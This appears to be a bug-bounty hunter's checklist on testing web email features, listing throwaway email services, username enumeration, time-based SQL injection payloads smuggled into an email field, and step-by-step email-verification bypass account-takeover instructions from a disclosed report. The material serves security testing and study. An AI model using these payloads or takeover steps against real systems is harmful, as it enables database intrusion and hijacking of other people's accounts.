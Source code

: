```yaml
---
tags:
  - web_hunting
  - logic-bugs
  - web-app-security
---
```

> **Throw Way Email Services**

Use throwaway email to create a temporary email: ○ [](https://mail.protonmail.com/)[https://mail.protonmail.com](https://mail.protonmail.com) ○ [](http://en.getairmail.com/)[http://en.getairmail.com](http://en.getairmail.com) ○ [https://temp-mail.org/en](https://temp-mail.org/en) ○ [](https://www.mailinator.com/)[https://www.mailinator.com](https://www.mailinator.com)

 - [ ] Username/Email Enumeration Non-Brute Force
```python
Check the Registration Process and try to find Idor or endpoint that leaks usernames/emails
```
- [ ] SQLI in Email Field
```jsx
# SQLI in Email Field

{"email":"asd'a@a.com"} --> Not Valid
{"email":"asd'or'1'='1@a.com" }  --> valid
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"}  -> Valid -->  Delay: 7,854 milis
{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"mes sage":"Berhasil"} --> Valid --> Delay 8,696 milis
{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"mes sage":"Berhasil"} ---> Valid --> No delay

# Resources
- <https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17>
```

 > **Email Verification Feature**

 - [ ] **[Email Verification Bypass Leads to PrivEsc](https://hackerone.com/reports/791775)a**
    ```python
    Visit <https://www.shopify.com/pricing> and signup a free trial with an email address, say attacker@gmail.com that you can receive emails
    after entering the fields to enter the store, on top right corner, click your name and go to Your Profile
    change your email to someone that you want to takeover, for example yaworsk@hackerone.com and click save
    All done now, grab a coffee, sit back and relax, watch some YouTube videos and wait for an email to go to your email attacker@gmail.com
    The email that you are waiting for is from mailer@shopify.com, and sent to the old emil
    Click the link and you should see your email has been updated to yaworsk@hackerone.com
    ```
    
- [ ] **Email Verification link Doesn't Expire After Email Change Leads to Delete User Account**
    
